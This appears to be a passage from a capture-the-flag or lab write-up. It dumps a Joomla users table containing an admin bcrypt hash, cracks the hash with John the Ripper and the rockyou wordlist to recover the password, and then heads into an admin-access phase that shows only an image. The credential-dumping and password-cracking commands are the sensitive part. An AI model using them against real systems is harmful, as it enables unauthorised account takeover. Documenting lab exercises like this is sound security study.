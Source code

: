 `grep cc1gr_users db/joomladb.sql`

```jsx
-- Table structure for table `cc1gr_users`
DROP TABLE IF EXISTS `cc1gr_users`;
CREATE TABLE `cc1gr_users` (
-- Dumping data for table `cc1gr_users`
LOCK TABLES `cc1gr_users` WRITE;
/*!40000 ALTER TABLE `cc1gr_users` DISABLE KEYS */;
INSERT INTO `cc1gr_users` VALUES (547,'Super Duper User',
'admin','admin@example.com',
'$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG',
0,1,
'2019-10-08 12:00:15',
'2019-10-25 15:20:02',
'0',
'{\"admin_style\":\"\",\"admin_language\":\"\",\"language\":\"\",\"editor\":\"\",\"helpsite\":\"\",\"timezone\":\"\"}','0000-00-00 00:00:00',0,'','',0);
/*!40000 ALTER TABLE `cc1gr_users` ENABLE KEYS */;

```

> **User Password Cracking Phase**
> 

`nano adminpasshash`

```jsx
$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG
```

`sudo john --wordlist=/usr/share/wordlists/rockyou.txt adminpasshash --format=bcrypt`

```jsx
abcd1234         (?)  
```

> **Admin Account Access & Exploitation Search Phase**
> 

![image.png](image%205.png)
